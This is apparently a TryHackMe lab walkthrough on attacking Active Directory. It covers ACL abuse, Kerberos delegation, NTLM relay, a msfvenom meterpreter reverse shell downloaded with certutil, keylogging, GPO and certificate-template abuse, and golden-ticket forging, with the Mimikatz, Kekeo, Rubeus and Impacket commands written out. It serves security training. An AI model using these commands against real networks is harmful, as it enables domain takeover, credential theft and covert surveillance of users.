


# Exploiting AD

In this room we are going to take a look at different exploits regarding misconfiguration we can take advantagee of in order to attack AD. Before we begin our exercise we need to configure our VPN and DNS. If you are curious how you can do this in Kali and in Windows you can check my previous walkthroughs on "Breaching AD" and "Enumerating AD".

### Exploiting Permission Delegation

First thing I did was to get some credentials from the distributor.za.tryhackme.loc/creds and launch neo4j and bloodhound in order to ingest the zip files containing the .json files that weere extracted by Sharphound.

```
neo4j console
bloodhound --no-sandbox
```

After searching for the path of the user we have credentials over to the tier 2 admins group we can see that with 2 steps we can have control over one of this accounts.



We are a member of the Domain Users group. This group has GenericWrite over the IT Support Group which has the ForceChangePassword ACE over the Tier 2 Admins.

1. By taking advantage of the Generic Write Property we can Add Members to the IT Support Group, meaning we can add our own user to the group.

   

​		

```
Add-ADGroupMember "IT Support" -Members "satah.hilton"
Get-ADGroupMember -Identity "IT Support"
```


2. By being a member of the IT Support Group we can easily change the password of one of the admins without knowing its current password, thus gaining access to that account.

   

```
Get-ADGroupMember -Identity "Tier 2 Admins"
$Password = ConvertTo-SecureString "New.Password.For.User" -AsPlainText -Force 
Set-ADAccountPassword -Identity "AD.Account.Username.Of.Target" -Reset -NewPassword $Password 
```


### Exploiting Kerberos Delegation

Load PowerView in order to use the Get-NetUser cmdlet.

```
Import-Module C:\Tools\PowerView.ps1 
Get-NetUser -TrustedToAuth
```

The svcIIS account can delegate the HTTP and WSMAN services on THMSERVER1 which means we can launch a Powershell Session impersonating a different user if we are able to extract the Service Account's password.

We can complete this attack using a combination of Mimikatz to dump LSASecrets from the service account, Kekeo to generate a TGT and TGSs and again Mimikatz to import both TGSs locally to launch a PS Session as an impersonated user.

Let's start!

Dump LSASecrets with mimikatz:

```
token::elevate
lsadump::secrets
```

Now that wee have the password we can generate  tickets with Kekeo:

```
tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:redacted

tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:<user> /service:http/THMSERVER1.za.tryhackme.loc

tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:<user> /service:wsman/THMSERVER1.za.tryhackme.loc
```

Import the generated TGSs with Mimikatz to perform a PTT attack:

```
privilege::debug
kerberos::ptt TGS_<user>@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
kerberos::ptt TGS_<user>.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
```

Launch a Powershell Session:

```
New-PSSession -ComputerName thmserver1.za.tryhackme.loc
Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc
```

Great!


### Exploiting Automated Relays

To perform this task we need:

1. A valid set of AD account credentials.
2. Network connectivity to the target's SMB service.
3. The target host must be running the Print Spooler service.
4. The hosts must not have SMB signing enforced.

Requirement one and two we have already.

Requirement three:

Option 1:

```
GWMI Win32_Printer -Computer thmserver2.za.tryhackme.loc
```


The output from the cmdlet verifies that the service is running.

Option 2:

```
Get-PrinterPort -ComputerName thmserver2.za.tryhackme.loc
```


Requirement 4:

```
nmap --script=smb2-security-mode -p445 thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc
```


We can see that SMB signing is enabled but not enforced based on the output. This means all our conditions are met, and we can start the attack!

We will use Spoolsample.exe to coerce THMSERVER2 to authenticate to us and then Impacket's ntlmrelayx.py to relay the authentication attempt THMSERVER1.

Setup NTLM Relay:

```
python /path/to/ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -debug
```

Coerce THMSERVER2 to authenticate to us:

```
SpoolSample.exe THMSERVER2.za.tryhackme.loc "Attacker IP"
```

By specifying no command with the -c flag on the ntlmreelayx command we perform a hasdump:


Finally we can get a shell on THMSERVER1 as one of the users by performing a PTH attack using for example Evil-WinRM:

> Note: The hash we are going to use is the last one on the strings outputted in the console:  


We could also perfom this with other tools (described in the Lateral Movement and Pivoting Module) or even from inside the target host (we needed Admin privileges collected from then previous task in order to do this with Mimiktaz).


### Exploiting AD Users

First thing we should do is login in THMSERVER1 and create a meterpreter session.

To do this we have to generate a payload with msfvenom:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT="Listening port" -f psh -o shell.ps1 
```

Afterwards, we have to create a handler with msfconsole:

```
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST IP; set LPORT "listening port'; exploit"
```

Now we should upload the file, start an HTTP Python server and download the file on the target machine with the commands below:

```
python -m http.server 80

certutil.exe -urlcache -split -f http://IP/shell.ps1
```

Now we should just execute the Powershell script on the target machine.

On meterpreter first let's find a process with another user for us to move since we are going to try and read the users keystrokes and we are on a context which does not give us any information we want:

```
ps | grep explorer

migrate <pid>

getuid
```

Now let's read the user's keystrokes:

```
keyscan_start
keyscan_dump
```

Great! Now that we have a password let's search for the database file:

```
search / -f *.kdbx
```

We have several options, but we should download the one with our current user privileges.

```
download ./PasswordDatabase.kdbx
```

Finally, in our local machine open this file using Keepass:

```
keepassx PasswordDatabase.kdbx
```

Insert our newfound password and we should see a flag on the "General" folder!

### Exploiting GPOs

In this task we are going to take advantage of the new user account we have found on the Password Database file in order to edit a GPO which in turn will provide us with RDP and Administrative access to THMSERVER2.

This is possible because according to the data we extracted using SharpHound the svcServMan service account can edit a GPO which applies to THMSERVER2. This means we can edit the GPO and, for example, allow the "IT Support" Group to be part of the "Administrators" and "Remote Desktop Users" Groups so that our user from Task 2 which is part of the "IT Support" Group has Administrative privileges on the new machine and be capable to RDP in.

With all this said, we can perform this by first RDPing in to THMWRK1 or THMSERVER1 as our initial non-privileged user.

```
xfreerdp /u:<user> /p:<password> /v:thmwrk1.za.tryhackme.loc
```

After RDPing in the machine we can store the service account's credentials locally using runas and after that we can open the Microsoft Management Console to edit the GPO:

```
runas /netonly /user:za.tryhackme.loc\svcServMan cmd.exe
mmc
```

Note: We can check if we typed in the correct credentials by trying to list the sysvol directory using `dir \\za.tryhackme.loc\sysvol`

After opening the MMC, we add the Group Policy Management Snap-in and edit the Managemenet Servers GPO under the Servers entry.

Now under Computer Configuration > Policies > Windows Settings > Security Settings > Restricted Groups we add the IT Support Group. This group is a member of: Administrators and Remote Desktop Users.

Great! Now we should wait 15 minutes for the GPO to apply and we can login as our user which is part of the "IT Support" Group to THMSERVER2.

Now we can read the flag in the Administrator's Desktop since we have Admin Privileges on the machine.


### Exploiting Certificates

Our first task is to find potentially vulnerable certificate templates. We can do this using the certutil utility:

```
certutil -Template -v > templates.txt
```

After saving this information into the templates.txt file, we can see that Template 32 is of particular interest since it has some toxic parameter combinations we can take advantage.

In order to exploit this certificate template, we will open the Microsoft Management Console and send a CSR to the domain controller with a specific certificate configuration which we can take advantage.

After requesting the certificate with a user account we are trying to impersonate (Administrator@za.tryhackme.loc), we should export this certificate with the private key and generate a TGT with Rubeus.

```
.\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:10.200.60.101
```

Now we are going to load this TGT into memory with Mimikatz and read flag5 inside the THMDC since we have impersonated the Administrator account.

```
privilege::debug

kerberos::ptt administrator.kirbi

type \\THMDC.za.tryhackme.loc\c$\Users\Administrator\Desktop\flag5.txt
```

We did it! We have compromised the THMDC server.


### Exploiting Domain Trusts

In this task we are going to perform a Golden Ticket attack. In this attack, we bypass the KDC altogether and create our own TGTs, essentially becoming a Ticket Granting Server (TGS). In order to forge TGTs, we need the following information:

- The FQDN of the domain
- The Security Identifier (SID) of the domain
- The username of the account we want to impersonate
- The KRBTGT password hash

First we will use our Tier 0 account to extract the KRBTGT password hash using Mimiktaz:

```
privilege::debug
lsadump:dcsync /user:za\krbtgt
```

Now that we have the KRBTGT password hash we can use it to forge a Golden Ticket to access any resource in the child domain. However, we can take this a step further by forging an Inter-Realm TGT.

In order to do this we need to add to our ticket the SID of the Enterprise Admins (EA) group so that we can be administrators and have admin access to the entire forest.

Before we can go into exploitation, we first need to recover two SIDs:

- The SID of the child domain controller (THMDC), which we will impersonate in our forged TGT

  ```
  Get-ADComputer -Identity "THMDC"
  ```

- The SID of the Enterprise Admins in the parent domain, which we will add as an extra SID to our forged TGT

  ```
  Get-ADGroup -Identity "Enterprise Admins" -Server thmrootdc.tryhackme.loc
  ```


Great, now that we have both SIDs we will use Mimikatz to generate this golden ticket.

```
privilege::debug

kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:S-1-5-21-3885271727-2693558621-2658995185-1001 /service:krbtgt /rc4:<Password hash of krbtgt user> /sids:<SID of Enterprise Admins group> /ptt
```
